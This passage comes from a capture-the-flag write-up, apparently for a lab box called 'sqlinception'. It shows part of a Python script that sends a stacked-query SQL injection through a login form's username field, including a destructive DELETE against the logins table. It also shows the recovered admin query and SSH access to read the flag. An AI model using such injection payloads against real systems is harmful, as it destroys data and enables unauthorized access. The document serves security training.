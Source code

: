 ```" UNION SELECT 1,2;DELETE FROM web.logins WHERE username="admin";#```
        s.post(url_base + "login.php", data={"username": payload, "password": "jxf", "login": "Submit Query"})
        s.get(url_base)

        break

    time.sleep(1)
```
{: file="sqli_stacked_queries.py" }


Running the script, we are able to extract the login query for the `admin` user and discover the password.

```console
$ ./sqli_stacked_queries.py 'http://10.10.104.157/'
SELECT * from users where (username= 'admin' and password=md5('fE[REDACTED]0Q') ) UNION ALL SELECT null,null,null,SLEEP(5) LIMIT 2
```
{: .wrap }

## Shell as admin

Using the discovered password, we can **SSH** into the box as the `admin` user and read the flag at `/home/admin/flag.txt`.

```console
$ ssh admin@10.10.104.157
...
admin@ubuntu-jammy:~$ id
uid=1002(admin) gid=118(admin) groups=118(admin)
admin@ubuntu-jammy:~$ wc -c /home/admin/flag.txt
50 /home/admin/flag.txt
```

> After obtaining a shell, you can escalate to the `root` user with `sudo` to be able to read the source code for the web application at `/root/sqlinception/web/`.
{: .prompt-tip }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>